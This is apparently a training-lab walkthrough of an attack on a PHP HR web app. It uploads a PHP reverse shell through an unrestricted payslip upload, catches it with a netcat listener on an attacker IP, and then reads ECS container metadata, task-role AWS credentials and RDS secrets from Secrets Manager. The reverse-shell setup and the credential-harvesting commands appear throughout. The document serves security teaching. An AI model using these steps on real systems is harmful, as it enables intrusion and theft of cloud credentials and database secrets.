# Objectives

Obtain a shell on the application and get AWS Credentials

# Solution

* Here we are trying to connect to the target system (on which our web application is running) and redirect the input and output streams from the target system to an attacker controller machine so we as an attacker can access it remotely.

* **Reverse shells** allow attackers to connect to a port on the attacker machine from the target machine and execute commands remotely.
* Since we know that our application is based on **PHP**, we will be using a **PHP Reverse Shell** 

## PHP Reverse Shell

Note: The rest of the exploitation requires access to an instance with a public IP address. Please deploy an EC2 instance with public IP address if required.  

* Here, we have our attacker machine with `3.90.178.96` as its public `ip`, listening on `port 45678`.

    ```console
    nc -nlvp 45678
    ```

    

* Now, we'll use a php reverse shell script [php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).  

* In the script change the `ip` and `port` from the default values to the our attacker controlled machines public ip address and exposed port, in this case port 45678.
    
    

    

* Now let's try to upload this **Reverse Shell**.

## Uploading Reverse Shell

* We know that we can upload files from 4 different locations.

* Let's try uploading it from **Normal User > Reimbursements Page**

    

* The Upload fails, throwing an **Unsupported File Type** error. This usually happens when there is a backend restriction on the uploaded file extension. Let's check if the same applies to other users.
    
    

* By exploring carefully, we can say that the user can access his/her payslips uploaded by the manager. Let's try uploading our **Reverse Shell** from  **Manager > Payslips** page.
    
    

* The Upload is Successful! Let's check that on the User Page.

* As we can see, there is a new upload in the **User > Payslips Page**. Now let's click on the **View File** button and see if it triggers our reverse shell code.
    
    

* Great! We have a reverse shell access on the applications host environment! Now let's explore and see if we could get anything useful.

    

## Recon

* Let's start by printing out the **Environment Variables**
    ```console
    printenv
    ````

* We can ascertain a lot of information from the environment variables. From the ``AWS_CONTAINER_CREDENTIALS_RELATIVE_URI``, it is evident that we have a shell inside a container. From the ``AWS_EXECUTION_ENV``, it is evident we are in an ECS container that is running on an EC2 instance host. Also from the ``RDS_ENDPOINT`` we can assume the application is using the **RDS** service.
    
    


* Now, run the below command to get the ECS container's metadata.

    ```console
    curl http://172.17.0.1:51678/v1/metadata
    ```

    

* On examining the output, we can find that the target application is running on a **Container Instance**. From the ``ContainerInstanceArn`` we have found the aws accounts' information where the HR application is deployed.

* Containers in AWS Elastic Container Service (ECS) are run using ``tasks`` and tasks have a role assigned to them that is passed on to the ECS Containers. Since we've already established that the application is running on an ECS container, let's try to get it's **AWS Role** Credentials by running the below command.

    ```console
    curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
    ```

* Voila! We obtained **Container Credentials**.

    

* Now set these credentials into the environment variables with the below-mentioned commands.

    Commands:

    ```console
    export AWS_ACCESS_KEY_ID=<value>
    export AWS_SECRET_ACCESS_KEY=<value>
    export AWS_SESSION_TOKEN=<value>
    ```

    

* We successfully obtained the **AWS Containers' Credentials**! Explore Further to obtain some more information.

# What's happening?

* When the user tries to open his/her payslip which in our case is the **PHP Reverse shell** uploaded by the manager, the PHP file executes in background on the target system and creates a socket with an IPv4 address which communicates over TCP.

    ```php
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    ```

* This gives us the access to the target system's shell, since we are listening actively on the `port` mentioned in the **PHP Reverse Shell**
    ```php
    $ip = '3.90.178.96';
    $port = 45678;
    ```
    ```console
    $ nc -nvlp 45678
    ```

* From here, we are into the target system and can obtain sensitive information!

# Further Exploration

* We now know that the application's DBMS is running on **RDS**, Let's try to get those credentials stored on the container.

* Run the below command
    ```console
    $ aws sts get-caller-identity
    ```

* We can see that we are assuming `ecs-task-role`

    

* Let's try to list the `iam role-policies`

    ```console
    $ aws iam list-role-policies --role-name ecs-task-role
    ```

* It doesn't look like we have IAM list/read access.

    

* AWS **Secrets Manager** is widely used by developers to store secrets. The **RDS** credentials might be stored as a **Secrets Manager** secret. Let's try to list out the secrets in the **Secrets Manager**.

    ```console
    $ aws secretsmanager list-secrets
    ```
    

* By running the above command, we can see that there is indeed a secret named **RDS_CREDS**. Let's view the secret by running the command below:

    ```console
    aws secretsmanager get-secret-value \
    --secret-id RDS_CREDS
    ```
    

* Great! We obtained the **RDS Credentials** stored in the **Secrets Manager**.

# Key Findings

* The Normal User page has **upload file type restriction** in the backend

* There is no **file type restriction** on Manager's page.

* We can upload our **Reverse Shell** via the **Manager > Payslips Page** and access the file on **Normal User > Payslips Page**.

* The target system is a **Container Instance**.

* We can obtain **AWS Container Credentials**.

* The backend database runs on **RDS** .

* **RDS Credentials** are stored in the **Secrets Manager**.
